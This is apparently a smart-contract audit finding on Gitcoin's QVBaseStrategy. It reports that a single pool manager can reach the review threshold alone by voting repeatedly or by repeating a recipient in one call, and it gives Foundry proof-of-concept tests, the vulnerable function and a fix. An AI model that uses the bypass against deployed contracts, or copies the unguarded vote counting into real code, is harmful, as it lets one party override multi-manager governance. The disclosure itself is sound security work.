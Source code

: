 Tame Grey Wombat

high

# Bypass reviewThreshold check in QVBaseStrategy.sol
The `reviewThreshold` is the number of votes required to review a recipient status. There is no check that `Pool Manager` has already voted to change status. If strategy have two `Pool Managers` and `reviewThreshold` is equal 2, than two different managers must vote, but one manager can vote twice and change recipient status. 
## Vulnerability Detail
To change user status, `Pool Manager` must call `reviewRecipients`. The status changes if the required number of votes is collected. But attacker call function `reviewRecipients` several times (`test_reviewRecipientsWithTheSamePoolManager_1`) or attacker can pass the same recipient several times in array(`test_reviewRecipientsWithTheSamePoolManager_2`).
Proof of Concept(Add this tests to `test/foundry/strategies/QVBaseStrategy.t.sol`):
```solidity
    function test_reviewRecipientsWithTheSamePoolManager_1() public {
        address recipientId = __register_recipient();

        address[] memory recipientIds = new address[](2);
        recipientIds[0] = recipientId;
        recipientIds[1] = recipientId;
        IStrategy.Status[] memory Statuses = new IStrategy.Status[](2);
        Statuses[0] = IStrategy.Status.Rejected;
        Statuses[1] = IStrategy.Status.Rejected;

        vm.startPrank(pool_manager1());
        qvStrategy().reviewRecipients(recipientIds, Statuses);

        QVBaseStrategy.Recipient memory recipient = qvStrategy().getRecipient(recipientId);
        assertEq(uint8(IStrategy.Status.Rejected), uint8(recipient.recipientStatus));
    }

   function test_reviewRecipientsWithTheSamePoolManager_2() public {
        address recipientId = __register_recipient();

        address[] memory recipientIds = new address[](1);
        recipientIds[0] = recipientId;
        IStrategy.Status[] memory Statuses = new IStrategy.Status[](1);
        Statuses[0] = IStrategy.Status.Rejected;

        vm.startPrank(pool_manager1());
        qvStrategy().reviewRecipients(recipientIds, Statuses);

        vm.expectEmit(true, false, false, false);
        emit RecipientStatusUpdated(recipientId, IStrategy.Status.Rejected, pool_admin());

        qvStrategy().reviewRecipients(recipientIds, Statuses);

        QVBaseStrategy.Recipient memory recipient = qvStrategy().getRecipient(recipientId);
        assertEq(uint8(IStrategy.Status.Rejected), uint8(recipient.recipientStatus));
    }
```
## Impact
The manager can change the user's status without the participation of other pool managers. 
## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol#L254
```solidit
function reviewRecipients(address[] calldata _recipientIds, Status[] calldata _recipientStatuses)
        external
        virtual
        onlyPoolManager(msg.sender)
        onlyActiveRegistration
    {
        // make sure the arrays are the same length
        uint256 recipientLength = _recipientIds.length;
        if (recipientLength != _recipientStatuses.length) revert INVALID();

        for (uint256 i; i < recipientLength;) {
            Status recipientStatus = _recipientStatuses[i];
            address recipientId = _recipientIds[i];

            // if the status is none or appealed then revert
            if (recipientStatus == Status.None || recipientStatus == Status.Appealed) {
                revert RECIPIENT_ERROR(recipientId);
            }

            reviewsByStatus[recipientId][recipientStatus]++;

            if (reviewsByStatus[recipientId][recipientStatus] >= reviewThreshold) {
                Recipient storage recipient = recipients[recipientId];
                recipient.recipientStatus = recipientStatus;

                emit RecipientStatusUpdated(recipientId, recipientStatus, address(0));
            }

            emit Reviewed(recipientId, recipientStatus, msg.sender);

            unchecked {
                ++i;
            }
        }
    }
```
## Tool used

Manual Review

## Recommendation
It is recommended to save that the pool manager has already voted to change the status and check whether he does it again. 
